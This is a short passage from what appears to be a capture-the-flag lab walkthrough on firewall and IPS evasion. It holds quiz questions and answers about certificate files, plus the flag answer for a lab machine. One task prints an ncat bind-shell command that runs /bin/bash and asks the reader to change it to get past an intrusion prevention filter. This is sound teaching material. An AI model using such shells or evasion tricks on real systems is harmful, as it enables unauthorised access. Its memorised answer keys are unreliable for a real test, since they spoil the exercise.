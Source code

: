     > ![](image-16.png)

    Question: Using the provided `openssl` command above. You created a certificate, which we gave the extension `.crt`, and a private key, which we gave the extension `.key`. What is the first line in the certificate file?
    > Ans: -----BEGIN CERTIFICATE-----

    Question: What is the last line in the private key file?
    > Ans: -----END PRIVATE KEY-----

    Question: On the attached machine from the previous task, browse to `http://MACHINE_IP:8080`, where you can write your Linux commands. Note that no output will be returned. A command like `ncat -lvnp 1234 -e /bin/bash` will create a bind shell that you can connect to it from the AttackBox using `ncat MACHINE_IP 1234`; however, some IPS is filtering out the command we are submitting on the form. Using one of the techniques mentioned in this task, try to adapt the command typed in the form to run properly. Once you connect to the bind shell using `ncat MACHINE_IP 1234`, find the user’s name.
    > Ans: redteamnetsec

## __Task 6: Evasion via Route Manipulation__

Evasion via route manipulation includes:

- Relying on source routing
- Using proxy servers
